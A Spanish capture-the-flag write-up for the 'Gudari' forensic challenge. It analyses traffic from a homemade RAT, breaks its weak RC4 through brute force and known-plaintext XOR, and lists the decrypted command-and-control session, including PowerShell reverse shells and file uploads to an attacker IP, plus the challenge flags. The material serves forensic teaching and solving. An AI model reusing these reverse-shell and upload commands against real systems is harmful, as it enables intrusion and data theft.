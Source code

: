 ```yaml
---
layout: post
title: "Cybercamp UMU - Gudari [Forensic]"
categories: ctf
tags: ikerl ctf forensic
date: 2023-07-09 19:00:00 +0100
author: ikerl
---
```

 
Gudari es uno de los retos que hemos creado para el CTF de la [Cybercamp UMU](https://cybercampmurcia.um.es/evento/capture-the-flag-ctf-cybercamp-umu/), organizado en julio de 2023 por la Universidad de Murcia en colaboración con el Club de Ciberseguridad de la Facultad de Informática, el grupo de CTFs Watch4Hack e INCIBE. Está basado en un desarrollo que hice en 2019 de un RAT llamado [GudariRAT](https://github.com/ikerl/Gudari_client). Fue un proyecto personal que consistió en el desarrollo de una herramienta de Command and Control desde cero y ha resultado muy útil para este CTF debido a que implementaba una gran cantidad de malas prácticas que se cometen habitualmente cuando se empieza en esto.

La descripción proporcionada durante el evento es la siguiente:

```¡AYUDAAAA! Me han secuestrado la flag y no tengo suficiente dinero como para pagar el rescate. Estaba capturando con Wireshark mientras sucedía todo, pero no soy capaz de entender nada.```

Para este reto, se proporciona una captura de tráfico que se debe analizar para entender qué ha ocurrido exactamente y recuperar la flag.

## Análisis de la traza

Estas son las conclusiones que se extraen tras un primer análisis de la traza con Wireshark:

1. Hay una primera conexión desde un equipo hacia el puerto 4444 de otro equipo. Esta conexión se mantiene durante toda la traza. El puerto 4444 se usa habitualmente en shells reversas de meterpreter o herramientas similares. El contenido de este tráfico no es ASCII y tampoco pertenece a ningún protocolo conocido. Mirando su entropía se puede sospechar de que se trata de tráfico cifrado.
2. Después de esta primera conexión se inicia una nueva conexión en la misma dirección que la anterior. Sin embargo, esta conexión va en plano y podemos ver que se trata de una shell reversa de PowerShell. Se puede ver una enumeración de los servicios y el listado de ficheros de la carpeta donde está la flag. Junto a la flag podemos encontrar un binario llamado `GudariRAT.exe` que hace saltar todas nuestras alarmas.
3. Tras esta conexión se observan tres conexiones más. Dos de ellas son conexiones que únicamente envían texto (una flag falsa `flag{Gudari_H4_T0m4do_Fl4gs}` y una nota de rescate). La última vuelve a ser una shell reversa de PowerShell que vuelve a listar los ficheros de la carpeta de la flag. Analizando los cambios que han ocurrido respecto a la primera vez que se listan los ficheros se observa que aparece un nuevo fichero llamado `readme.txt` y que se ha modificado el fichero `flag.txt`. También se ve el comando `notepad readme.txt` que sirve para abrir la nota de rescate con Notepad.

Con toda esta información, estas son nuestras hipótesis de lo que ha podido pasar:

1. En el equipo de la víctima se ha ejecutado el binario sospechoso.
2. El atacante ha conseguido ejecución de código en la máquina comprometida.
3. Utiliza la conexión del puerto 4444 para su actividad maliciosa.
4. Roba la flag.
5. Modifica la flag.
6. Sube la nota de rescate y la abre.

Lo único que nos falta es conocer el contenido de la conexión al puerto 4444 para averiguar exactamente qué es lo que ha realizado el atacante. Tras una rápida búsqueda por Internet, daremos con el repositorio del `GudariRAT`.

## Análisis del código fuente del GudariRAT

Una vez que conocemos la herramienta de Command and Control que se ha utilizado, toca entender cómo funciona exactamente. Vemos que cuenta con funcionalidades de reverse shell de PowerShell y de transferencia de ficheros que cuadra mucho con la actividad maliciosa que hemos identificado en la traza.

Por otro lado, vemos que soporta el uso de RC4 para cifrar los datos de la conexión principal. En este momento podemos deducir que la conexión inicial al puerto 4444 está cifrada con RC4.

También vemos que cada mensaje consta de dos bytes que indican la longitud del mensaje y que luego van directamente los datos cifrados en RC4.

## Vulnerabilidades del canal de comunicación

Para terminar de resolver el reto, tenemos que conseguir descifrar este tráfico cifrado con RC4 y de esta manera descubrir toda la interacción "cifrada" que ha tenido el atacante con la víctima. Revisando la implementación del RC4 de Gudari, identificamos las siguientes vulnerabilidades graves:

- Los mensajes se cifran individualmente y no en flujo. Es decir, un mismo mensaje que se envíe en diferentes tiempos tendrá el mismo resultado. Por ejemplo, ocurre esto en el mensaje `090058220984af2f9a743f` (EXEC type flag.txt).
- Los mensajes no contienen un vector de inicialización que haga que cada mensaje sea único.
- Las contraseñas utilizadas en Gudari parecen débiles. Por defecto, se utiliza la contraseña `abcd`.

Estas vulnerabilidades criptográficas son muy graves y se pueden explotar de las siguientes maneras:

- **Fuerza bruta al mensaje**: Podemos utilizar herramientas para hacer fuerza bruta al cifrado RC4. En este caso, se ha podido obtener la clave utilizando el diccionario `rockyou` y la herramienta [rc4_brute_force](https://github.com/tarnoldh65/rc4_brute_force).
- **XOR entre el texto cifrado y el texto en plano**: Si hacemos el XOR del tráfico cifrado inicial con algo conocido, podremos conseguir la clave XOR que se ha utilizado durante la comunicación (RC4 al final es un cifrador de flujo que realiza XOR). Luego aplicamos esta clave al resto de mensajes y obtendremos el texto en plano.

## Romper el RC4 mediante fuerza bruta

La contraseña utilizada durante el reto aparece en el diccionario `rockyou`. Podemos usar herramientas que permitan hacer fuerza bruta a RC4 para obtener la contraseña y descifrar todos los mensajes. Este es el comando empleado:

```
python3 rc4_brute_force.py -f /usr/share/wordlists/rockyou.txt -c '175a6c98d014ac596a27b8e15597c0e9248dd3a7f52397...'
```

El programa ha encontrado que la contraseña `s3cr3tary` permite obtener una salida ASCII válida. Una vez que tenemos la contraseña, ya podemos ir descifrando los mensajes uno por uno y obtener la flag `cyberflag{Gud4r1_3n_F0r3ns3}`.


## Romper el RC4 con texto plano conocido

Si conocemos el texto en plano de alguno de los mensajes que van cifrados, podremos conseguir los valores que se han utilizado para cifrar el mensaje simplemente haciendo el XOR del texto plano con el texto cifrado. En este caso, mirando el código fuente, vemos que el primer mensaje que manda la víctima al puerto 4444 es el banner. Podemos hacer el XOR del banner cifrado con el texto en plano del banner para obtener los valores que se usan para hacer el XOR y cifrar los mensajes. Como todos los mensajes se cifran individualmente y no en flujo, y no contienen un vector de inicialización, podremos utilizar estos bytes de cifrado/descifrado para todos los mensajes.

Al descifrar el mensaje que contiene la flag, obtendremos la flag del reto:

```
Banner cifrado (primer mensaje de la traza): 175a6c98d014ac596a27b8e15597c0e9248dd3a7f523971c15c276c38e.. (1)
Banner en plano (extraído desde el repo): 0a20205f5f5f5f5f5f5f5f202020202020202020202e5f5f5f2020205f.. (2)
(1) xor (2): 1d7a4cc78f4bf3063578e7c175b7e0c904adf387d50dc8434ae256e3d1.. (clave)

Mensaje de la flag cifrada: 7e032ea2fd2d9f675203a0b4118392f85b9e9dd8933dba702491659e.. (flag cifrada)
(flag cifrada) xor (clave) = cyberflag{Gud4r1_3n_F0r3ns3}
```

Al igual que con el mensaje que contiene la flag podemos descifrar mensaje a mensaje toda la conversación cifrada.

## Historia completa

Ahora que podemos descifrar todos los mensajes, podemos reconstruir toda la historia. Estos son los comandos que se ejecutan a través de la conexión del puerto 4444 que va cifrado:

1. **EXEC hostname**: Se enumera el hostname
2. **EXEC whoami**: Se enumera el usuario
3. **EXEC ipconfig**: Se enumera la configuración de red
4. **POWERSHELL 192.168.154.129 59560**: Abre una shell reversa de powershell hacia el puerto 59560 del atacante. Desde este powershell se enumeran los servicios y se lista la carpeta de la flag.
5. **EXEC pwd**: Enumera el directorio actual para verificar que está en el directorio de la flag.
6. **EXEC dir**: Lista el directorio de la flag y ve que existe la flag.
7. **EXEC type flag.txt**: Lee la flag original.
8. **UPLOAD 192.168.154.129 58835 flag.txt C:\Users\Iker\Desktop**: Se conecta al puerto 57191 del atacante, sube la flag falsa y sobrescribe la original. La flag falsa que se ve en plano es justamente esta flag cuando se sube.
9. **EXEC type flag.txt**: Verifica que la flag ha sido correctamente sobrescrita.
10. **UPLOAD 192.168.154.129 57191 readme.txt C:\Users\Iker\Desktop**: Se conecta al puerto 57191 del atacante y sube el readme al directorio de la flag.
11. **EXEC dir**: Lista el directorio de la flag de nuevo.
12. **POWERSHELL 192.168.154.129 48190**: Abre una shell reversa de powershell hacia el puerto 48190 del atacante. Desde esta shell se abre la nota de rescate con notepad.
